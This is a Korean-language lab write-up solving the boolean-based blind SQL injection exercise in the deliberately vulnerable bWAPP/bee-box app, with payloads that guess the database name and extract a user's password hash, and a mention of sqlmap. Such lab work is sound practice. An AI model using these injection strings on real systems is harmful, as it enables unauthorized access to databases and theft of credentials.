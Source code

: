## SQL Injection - Blind - Boolean-Based

![vmware_zUhP7u2W5f](https://user-images.githubusercontent.com/79683414/135957666-4ddddd99-bd9b-45c0-819c-b15170f361b5.png)

![vmware_rPdS8YZ1oq](https://user-images.githubusercontent.com/79683414/135957962-33b6ebf2-103f-4692-a41a-6a12135840e2.png)

<br>

페이지를 살펴보니 movie 를 seaerch 하면 DB에 해당 movie 가 있는지 없는지 확인해 주는 기능을 하는 것 같다. 이전 문제들 처럼 데이터를 직접적으로 노출 시킬 수 없다 보니 '임의의 Query 를 입력하고 출력되는 참/거짓 값'으로 데이터를 추측해 나가는 방법을 이용해야한다. 흔히 Blind SQL Injection 이라 한다.

<br><br>

## Blind SQL Injection(Boolean)?

Injection 과 그에 대한 Boolean 결과 값으로 데이터를 추측하는 기법으로 자주 사용되는 4가지 함수가 있다. 

- limit
- substring
- ascii

<br><br>

__limit [row_count], [offset]__

limit 은 행 단위로 선택하는 함수이다. row_count 부터 offset 만큼 결과를 반환한다.

<br>

__substring([str], [str_count], [offset])__

limit 와 같은 맥락, 문자열에서 문자열을 추출한다.  str_count 부터 offset 만큼 결과를 반환한다.

<br>

__ascii( str ) -> int__

문자를 아스키 코드로 변환한다. 필터링을 우회하는 용도로 사용한다.

<br><br>

## low

![vmware_8XRXTAf42c](https://user-images.githubusercontent.com/79683414/135961142-1448377d-5872-45e4-9597-7bff21410214.png)

 ` ' or 1=1 # ` 의 결과가 참으로 출력된다. 그렇다면 아래와 같이 "and ~" 를 이용하면 해당 쿼리의 결과를 통해 데이터를 추측할 수 있을 것이다.

__' or 1=1 and ~~~ #__

<br>

이전에 푼 문제들을 통해 Bee-Box의 DB 명이 bWAPP 인 것을 알고 있다. length() 와 database() 를 이용해서 DB명의 길이를 추즉해보자.

<br>

__' or 1=1 and length(database())=5 #__

![vmware_gNKl1ZBnpE](https://user-images.githubusercontent.com/79683414/135961754-b072288d-a635-4921-a259-4182a7b9196f.png)

<br>

__'or 1=1 and substring(database(), 1, 1)='b' #__

![vmware_u6m4Ted7E7](https://user-images.githubusercontent.com/79683414/135961879-6ed8ae2e-8181-4908-bb8e-da93e6ee8f91.png)

<br>

DB 이름의 길이는 5 , 첫번째 글자는 "b" 인 것으로 확인되었다. 이런 식으로 알고 있는 정보를 바탕으로 데이터를 하나씩 추측해나가면 된다. 

select 문을 이용하면, 오래걸리겠지만, password 의 해쉬 값도 알아낼 수 있다. (DB에 저장되는 password 값은 해쉬값이다.)

<br>

__' or 1=1 and length((select password from users where login='bee'))=3 #__  

__' or 1=1 and substring((select password from users where login='bee'),1,1)='ddfk' #__ 

<br>

아래와 같이 해쉬 함수도 사용이 가능하다.

__' or 1=1 and md5("bug")=(select password from users where login='bee') #__

<br><br>
이런 번거로운 과정을 대신해주기 위해 「프로그램」이라는 것이 존재한다. Super Great 한 `sqlmap` 을 이용하면 위에서 사용한 것과 같은 인젝션을 수행하여 DB 정보를 알아낸다. ~~~sqlmap을 사용해도 시간이 좀 걸린다 ㄷㄷ~~~

![vmware_GJZudisF2q](https://user-images.githubusercontent.com/79683414/135964181-d10f7bf8-d56c-404e-b9b0-b1c019ca8a1c.png)
![vmware_L4WUoLiojM](https://user-images.githubusercontent.com/79683414/135964184-d8d74e68-b7d5-416d-9af9-334baa680c72.png)

